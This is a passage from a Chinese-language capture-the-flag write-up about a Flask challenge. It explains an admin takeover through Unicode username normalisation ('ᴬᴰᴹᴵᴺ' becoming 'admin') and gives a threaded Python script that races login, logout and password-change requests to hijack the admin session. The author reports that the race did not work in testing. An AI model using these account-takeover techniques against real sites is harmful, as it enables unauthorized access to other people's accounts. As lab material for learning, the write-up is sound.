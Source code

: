 然后我们发现在使用nodeprep.prepare函数转换时过程如下：

```shell
ᴬᴰᴹᴵᴺ -> ADMIN -> admin
```

假如我们注册ᴬᴰᴹᴵᴺ用户，然后在用ᴬᴰᴹᴵᴺ用户登录，因为在login函数里使用了一次nodeprep.prepare函数，因此我们登录上去看到的用户名为ADMIN，此时我们再修改密码，又调用了一次nodeprep.prepare函数将name转换为admin，然后我们就可以改掉admin的密码，最后利用admin账号登录即可拿到flag。

#### 条件竞争

这个漏洞应该是属于代码逻辑上的漏洞

![image-20210405172632495](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210405172632.png)

在session赋值时，登录、注册都是直接进行赋值，未进行安全验证，也就可能存在以下一种可能：
我们注册一个用户test，现在有一个进程1一直重复进行登录、改密码操作，进程2一直注销，且以admin用户和进程1所改的密码进行登录，是不是有可能当进程1进行到改密码操作时，进程2恰好注销且要进行登录，此时进程1改密码需要一个session，而进程2刚好将session[‘name’]赋值为admin，然后进程1调用此session修改密码，即修改了admin的密码。

不过从理论上来讲应该是能够改掉admin的密码的，可是在实际测试并没有成功。

```python
import requests
import threading

def login(s, username, password):
    data = {
        'username': username,
        'password': password,
        'submit': ''
    }
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/login", data=data)

def logout(s):
    return s.get("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/logout")

def change(s, newpassword):
    data = {
        'newpassword':newpassword
    }
    return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/change", data=data)

def func1(s):
    login(s, 'test', 'test')
    change(s, 'test')

def func2(s):
    logout(s)
    res = login(s, 'admin', 'test')
    if 'flag' in res.text:
        print('finish')

def main():
    for i in range(1000):
        print(i)
        s = requests.Session()
        t1 = threading.Thread(target=func1, args=(s,))
        t2 = threading.Thread(target=func2, args=(s,))
        t1.start()
        t2.start()

if __name__ == "__main__":
    main()
```
